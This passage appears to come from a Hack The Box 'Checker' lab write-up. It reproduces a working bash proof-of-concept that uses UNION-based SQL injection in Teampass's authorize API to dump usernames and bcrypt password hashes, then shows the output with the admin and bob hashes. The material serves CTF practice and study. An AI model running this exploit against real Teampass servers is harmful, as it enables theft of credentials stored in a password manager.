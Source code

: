 ### Proof of Concept (PoC)

Luckily for us there was also a `Proof of Concept (PoC)` available.

```c
```php
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

The `PoC` allowed us to extract two `hashes` from `Teampass`. One for the user `admin` and one for a user called `bob`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/files]
└─$ ./sqli_poc.sh http://checker.htb:8080
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```
